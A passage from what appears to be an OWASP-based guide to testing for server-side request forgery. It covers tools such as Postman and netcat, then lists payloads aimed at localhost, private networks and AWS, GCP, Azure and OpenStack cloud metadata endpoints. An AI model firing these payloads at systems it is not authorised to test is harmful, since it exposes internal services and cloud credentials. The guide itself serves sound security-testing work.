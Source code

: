       http "http://example.com/fetch?url=http://localhost"
      ```

- **Postman**: GUI tool for testing SSRF payloads in APIs or forms.
  - Download from [Postman](https://www.postman.com/downloads/).
  - Send payloads in query parameters or body.
  - **Tip**: Use Collections for batch testing.

- **Browser Developer Tools (Chrome/Firefox)**: Inspects responses to SSRF payloads.
  - Access: Press `F12` or `Ctrl+Shift+I`.
  - Use Network tab to analyze responses and Console tab for errors.
  - **Note**: Firefox’s 2025 response inspection enhancements improve debugging.

- **Netcat (nc)**: Tests raw HTTP requests and listens for blind SSRF callbacks.
  - Install on Linux:
    ```bash
    sudo apt install netcat
    ```
  - Install on Windows/Mac: Download from [nmap.org](https://nmap.org/ncat/).
  - Example:
    ```bash
    echo -e "GET /fetch?url=http://localhost HTTP/1.1\nHost: example.com\n\n" | nc example.com 80
    ```

## Testing Methodology

This methodology follows OWASP’s black-box and gray-box approaches for WSTG-INPV-019, testing Server-Side Request Forgery vulnerabilities across entry points, basic SSRF, internal network access, cloud metadata access, blind SSRF, protocol manipulation, filter bypass, and chained attacks.

### Common Server-Side Request Forgery Payloads

Below is a list of common payloads to test for SSRF vulnerabilities. Start with simple payloads to confirm SSRF, then escalate to advanced payloads. Use with caution in controlled environments to avoid accessing sensitive systems or causing disruptions.

- **Basic SSRF Payloads**:
  - `http://localhost` (Localhost access)
  - `http://127.0.0.1` (Localhost IP)
  - `http://[::1]` (IPv6 localhost)
  - `http://example.com` (External site)

- **Internal Network Access Payloads**:
  - `http://10.0.0.1` (Private IP)
  - `http://192.168.1.1` (Private network)
  - `http://intranet.local` (Internal hostname)
  - `http://172.16.0.1:8080` (Internal service with port)

- **Cloud Metadata Payloads**:
  - `http://169.254.169.254/latest/meta-data/` (AWS metadata)
  - `http://metadata.google.internal/computeMetadata/v1/` (GCP metadata)
  - `http://169.254.169.254/metadata/v1/` (Azure metadata)
  - `http://169.254.169.254/openstack/latest/meta_data.json` (OpenStack metadata)
